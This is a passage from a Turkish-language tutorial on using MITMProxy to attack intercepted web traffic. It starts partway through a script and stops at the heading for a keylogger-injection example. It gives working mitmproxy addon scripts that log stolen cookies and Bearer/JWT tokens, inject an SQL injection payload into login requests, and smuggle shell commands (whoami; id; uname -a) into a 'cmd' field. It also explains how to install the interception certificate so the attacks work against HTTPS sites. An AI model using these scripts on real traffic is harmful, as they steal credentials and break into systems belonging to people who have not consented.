 def request(flow):
 cookies = flow.request.headers.get("Cookie", "")
 if cookies:
 ctx.log.info(f"Çerezler: {cookies}")

📌 Bu betik, tüm çerezleri MITMProxy loglarında gösterir.

🔹 Örnek 4: Bearer Token Çalmak
python
from mitmproxy import ctx

def request(flow):
 auth\_header = flow.request.headers.get("Authorization", "")
 if "Bearer" in auth\_header:
 ctx.log.info(f"Bearer Token: {auth\_header}")

📌 Bu betik, JWT veya OAuth token'larını çalar.

3. Trafik Manipülasyonu ile Enjeksiyon
MITMProxy, HTTP isteği ve yanıtlarını değiştirerek bir saldırı yüzeyi oluşturabilir.
🔹 Örnek 5: SQL Injection Payload Enjeksiyonu
Bir giriş formuna otomatik olarak SQL Injection kodu enjekte etmek:
python
from mitmproxy import http

def request(flow: http.HTTPFlow):
 if flow.request.method == "POST" and "login" in flow.request.pretty\_url:
 flow.request.text = flow.request.text.replace("username=", "username=' OR '1'='1' -- ")

📌 Bu betik, kullanıcı giriş isteklerine otomatik SQL Injection payload'ı ekler.

🔹 Örnek 6: Komut Enjeksiyonu
Eğer sistemde bir komut enjeksiyonu açığı varsa, aşağıdaki betik çalıştırılabilir:
python
from mitmproxy import http

def request(flow: http.HTTPFlow):
 if flow.request.method == "POST" and "execute" in flow.request.pretty\_url:
 flow.request.text = flow.request.text.replace("cmd=", "cmd=whoami; id; uname -a")

📌 Bu betik, hedef sisteme komut çalıştırma saldırısı yapar.

4. HTTPS Trafiğini Manipüle Etme
MITMProxy ile HTTPS trafiğini analiz edip saldırılar düzenlemek için sertifika yüklemek gerekir.
MITMProxy sertifikasını yükleyin:
bash
mitmproxy --set block\_global=false

Tarayıcıya veya cihaza sertifikayı yükleyin (http://mitm.it adresinden).
Yukarıdaki saldırı betiklerini HTTPS sitelerine uygulayın.

5. MITMProxy ile Keylogger Enjeksiyonu
MITMProxy kullanarak kurbanın girdiği her şeyi kaydetmek için bir keylogger ekleyebilirsiniz.
🔹 Örnek 7: Web Sayfasına Keylogger Enjekte Etme
python
from mitmproxy import http
